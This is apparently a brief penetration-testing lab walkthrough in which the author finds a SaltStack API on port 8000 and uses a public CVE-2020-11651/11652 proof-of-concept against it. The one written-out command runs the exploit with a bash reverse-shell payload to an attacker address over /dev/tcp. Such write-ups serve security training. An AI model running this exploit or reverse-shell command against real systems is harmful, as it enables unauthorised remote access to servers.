





# 8000

Information disclosure


Now checking google for this json:


It's the salt API

Using this exploit:
https://github.com/jasperla/CVE-2020-11651-poc



Now we can get the shell:
```bash
python3 CVE-2020-11652/CVE-2020-11652.py --master 192.168.234.62 --exec-choose master --exec-cmd "/bin/bash -i >& /dev/tcp/192.168.45.167/80 0>&1"
```
We get a shell back:


